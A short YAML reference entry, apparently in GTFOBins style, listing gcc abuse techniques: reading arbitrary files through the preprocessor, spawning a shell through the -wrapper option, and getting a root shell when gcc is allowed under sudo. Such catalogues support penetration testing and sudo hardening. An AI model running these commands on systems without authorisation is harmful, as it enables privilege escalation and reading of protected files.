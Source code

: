 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```


